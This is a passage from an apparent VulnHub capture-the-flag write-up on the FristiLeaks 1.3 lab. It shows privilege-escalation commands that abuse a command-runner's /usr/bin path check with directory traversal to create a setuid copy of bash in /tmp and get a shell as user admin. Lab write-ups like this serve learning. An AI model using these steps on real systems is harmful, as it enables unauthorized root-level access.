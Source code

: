 2\. We find another interesting file at `/home/eezeepz/notes.txt` which hints at a possible privesc method:  
```
cd /home/eezeepz
cat notes.txt
```

![writeup.privesc.steps.2.1](/static/files/posts_vulnhub_fristileaks1dot3/screenshot07.png.webp)  

3\. As suggested in the notes file, we create a file `/tmp/runthis` to execute a command starting with `/usr/bin` followed by directory traversal strings to copy the `bash` shell into `/tmp` directory and setuid on it. Since these commadns are executed within the scope of user `admin`, wehn we run the `/tmp/bash` file, we get a shell as user `admin`:  
```
echo -e "/usr/bin/../../bin/cp /bin/bash /tmp/bash; chmod u+s /tmp/bash" >/tmp/runthis
/tmp/bash -p
```
